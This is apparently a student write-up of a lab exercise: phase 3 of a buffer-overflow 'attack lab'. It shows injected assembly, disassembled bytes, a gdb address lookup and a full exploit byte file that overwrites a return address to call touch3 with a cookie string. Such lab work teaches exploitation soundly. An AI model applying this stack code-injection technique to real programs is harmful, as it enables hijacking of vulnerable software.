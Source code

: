```c
		fail(3);
	}
	exit(0);
}
```

The task is similar to phase 2 except that we need to call touch3 and pass the address of our cookie string to %rdi.

Because the functions hexmatch and strncmp may overwrite portions of memory that held the buffer used by getbuf, the cookie string has to be stored at a safe place. We can store it after touch3.

The total bytes before the cookie are `buffer + 8 bytes for return address of rsp + 8 bytes for touch3` , that is `0x18 + 8 + 8 = 28` (40 Decimal)

In phase 2 we know %rsp points `0x5566fce8`. Add the bias `0x5566fce8 + 0x28 = 0x5566fd10`. Then we can write the code and generate the byte representation

```
movq $0x5566fd10,%rdi /* %rsp + 0x28 */
retq
```

Disassemble it

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 10 fd 66 55 	mov    $0x5566fd10,%rdi
   7:	c3                   	retq   
```

Get the address of touch3

```
(gdb) p touch3
$1 = {void (char *)} 0x555555555a6e <touch3>
```

We can transfer our cookie into hex format according to ASCII table

```
man ascii
```

We can know 0x5f5bd74e → 35 66 35 62 64 37 34 65 

Now we can create atk3.txt

```
48 c7 c7 10 fd 66 55 c3         /* pass the address of cookie to %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00         /* padding */
e8 fc 66 55 00 00 00 00         /* return (%rsp) */
6e 5a 55 55 55 55 00 00         /* the address of touch3 */
35 66 35 62 64 37 34 65         /* cookie string*/
```
